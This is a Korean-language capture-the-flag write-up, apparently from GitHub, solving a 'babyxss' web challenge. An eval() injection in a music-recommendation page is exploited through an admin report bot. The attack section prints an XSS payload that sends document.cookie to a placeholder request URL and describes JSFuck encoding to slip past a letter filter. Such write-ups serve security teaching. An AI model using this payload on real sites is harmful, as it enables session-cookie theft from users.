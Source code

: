 <h1>1. 웹페이지 접속</h1>
 

![image](./image/babyxss2.png)
 

대상 웹사이트에 접속하였을 때의 메인화면이다. Baby's music, Saved, Go to Report 세가지 메뉴가 존재한다.

 

먼저 Baby's music 메뉴에 접근해보았을 때 메뉴는 다음과 같다.

 

![image](./image/babyxss3.png)
 

입력할 수 있는 입력창과 확인 버튼 그리고 save 버튼이 존재하였으며 일단 임의의 문자열 입력 후 확인 버튼을 클릭해보았다.

 

![image](./image/babyxss4.png)

 

nope! 이라는 메시지가 출력되었다.

 

![image](./image/babyxss5.png)

 

임의의 숫자를 입력 후 확인 버튼 클릭 시 입력한 숫자가 포함된 문자열이 출력되는 것을 확인하였으며 save 버튼 클릭 시 id를 발급받을 수 있었다.

 

다음은 Saved 메뉴에 접근해보았다.

 

![image](./image/babyxss6.png)

 

?id= 라는 문자열이 출력되었다. ?가 붙어있는 것을 보고 파라미터인 것 같다는 생각이 들어 url에 파라미터를 입력해보았다.

 

![image](./image/babyxss7.png)
 

id 파라미터에 방금 발급받았던 id 값을 입력하였더니 사용자가 입력한 값이 포함되어 저장된 내용이 출력되었다.

 

다음은 Go to Report 메뉴에 접근해보았다.

 
![image](./image/babyxss8.png)

 

입력창과 제출 버튼이 있어 임의의 문자열 입력 후 제출 버튼을 클릭해보았다.

 

![image](./image/babyxss9.png)
 

Reported! 메시지가 출력되었는데 어떤 기능이 실행되는지는 알 수 없었다.

 

<h1>2. 코드 분석</h1>
 

![image](./image/babyxss10.png)
 

cookies 변수에 FLAG 가 저장되어있는 것을 알 수 있다.

 

![image](./image/babyxss11.png)
 

이 코드를 통해 Go to Report 메뉴의 기능을 확인할 수 있었다. cookies 변수에 저장된 값을 이용하여 쿠키를 세팅하며 요청 패킷의 url 파라미터를 통해 입력받은 url로 서버에서 접근하게 된다는 것을 알 수 있다. 프록시를 통해 확인한 url 파라미터 값은 다음과 같다.

 

![image](./image/babyxss12.png)
 

 

다음으로 주목할 부분은 Baby's music 메뉴의 소스코드이다.

 

![image](./image/babyxss13.png)
 

입력 받은 값을 정규 표현식을 통해 필터링하는 부분이 존재하며 필터링되지 않는다면 eval 함수의 인자값에 사용자가 입력한 값이 포함되는 것을 확인하였다. 이를 통해 악의적인 스크립트를 삽입할 수 있을 것이라고 생각하였다.

 

<h1>3. 공격 시나리오</h1>
 

웹사이트의 메뉴를 확인하고 코드를 분석한 결과 다음과 같은 시나리오를 생각해보았다.

 

1. Baby's music 메뉴에서 악의적인 스크립트를 삽입한 후 save 한다.

 

2. Go to Report 메뉴에서 saved?id='save_id' 를 입력하여 서버 측에서 악의적인 스크립트가 삽입된 페이지에 접근하도록 하여 쿠키를 탈취한다.

 

 

<h1>4. 공격 실행</h1>
 

1) Baby's music 메뉴에서 악의적인 스크립트를 삽입한 후 save 한다.

 

Baby's music 메뉴에서 다음과 같은 스크립트를 삽입하고자 한다.

 

```
',location.href="request_url/"+document.cookie,'
```
 

스크립트의 앞부분에 ', 과 뒷부분에는 ,' 가 존재하는 이유는 Baby's music 에서 입력한 값은 eval 함수의 인자에 삽입되기 때문이다.

 

```
eval(`msg.innerHTML='This is recommended album for ${age}-year-old.'`);
```

 

입력한 값이 ${age} 에 삽입되게 되는데 악의적인 스크립트가 삽입된 결과는 다음과 같다.

 

```
eval(`msg.innerHTML='This is recommended album for ',location.href="request_url/"+document.cookie,'-year-old.'`);
``` 

 

이렇게 삽입되면 eval 함수를 통해 삽입된 악의적인 스크립트가 실행된다.

 

하지만 알파벳은 필터링되어 스크립트가 삽입될 수 없으므로 다른 방법으로 삽입해야한다.

 

![image](./image/babyxss14.png)
 

삽입할 스크립트를 JSFuck 기법으로 인코딩하여 삽입한다.

 

먼저 임의의 숫자를 입력 후 save 버튼을 클릭한다.

 

![image](./image/babyxss15.png)
 

프록시 도구에서 스크립트를 삽입한다.

 

![image](./image/babyxss16.png)
 

발급받은 id 값을 확인한다.

![image](./image/babyxss17.png)
 

Go to Report 메뉴로 이동하여 saved?id='발급받은 id' 를 입력 후 제출 버튼을 클릭한다.

 

![image](./image/babyxss18.png)
 

 

쿠키 탈취에 성공하여 flag를 확인하였다.

 

![image](./image/babyxss19.png)
